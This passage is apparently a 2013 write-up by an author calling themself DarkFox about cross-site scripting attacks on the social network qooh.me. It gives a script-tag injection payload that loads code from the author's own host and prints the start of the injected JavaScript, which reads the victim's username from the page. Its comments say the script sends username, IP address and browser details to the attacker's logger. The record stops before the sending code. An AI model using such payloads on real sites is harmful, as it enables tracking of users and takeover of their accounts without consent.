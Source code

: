 ### Other pages

- Error pages
- Find friends

All the XSS links
-----------------

All of the XSS attacks are all kept in the one place to remove complexity.

  <http://darkfox.us.to/exploits/qooh.me/>\
  <http://darkfox.us.to/exploits/qooh.me/mobile.html>

Every time I was focusing on getting my code to run, my code in `/e/a.js` is as
follows.

``` javascript
/* 
 * http://qooh.me/
 *
 * The exploit tells me if a user is logged into the social network and sends me
 * their username, not using any APIs as this is done through injection onto the
 * page. There are no limits to what can be done on the user's account. Only to
 * what is "truely" limited to the user's browser.
 * 
 * The exploit sends the messages through two methods.
 *
 * - Tell the above frame the username in a message via postMessage.
 * - Make a request to a logger, logging the username, ip address, and user agent
 *   of the browser and the timestamp that they visited the page.
 *
 * <script src=//darkfox.us.to/e/a.js></script>
 *
 * Symlink /e/a.js -> /exploits/qooh.me/qooh.js
 *
 * Copyright (c) DarkFox, 2013.
 *
 */

"use strict";

(function () {

    // Don't re-run per multiple injection.
    if (typeof window.owned == "boolean") return

    window.owned = true;
    var l, u, x;

    // Define s helper to set multiple attributes in a monadic way.
    function s () {
        this.setAttribute.apply(this, arguments);
        return this
    }

    // Grab the username of the user from their navigation menu / profile link.
    u = document.querySelector("li:nth-child(2) a")
                .getAttribute("href")
                .slice(1);

    // Depending on the user, do different things.
    switch (u) {
        // Don't log my own user
        case "DarkNFoxy":
        case "DarkNFoxyMobile":
            console.log("Logger disabled for this user");
```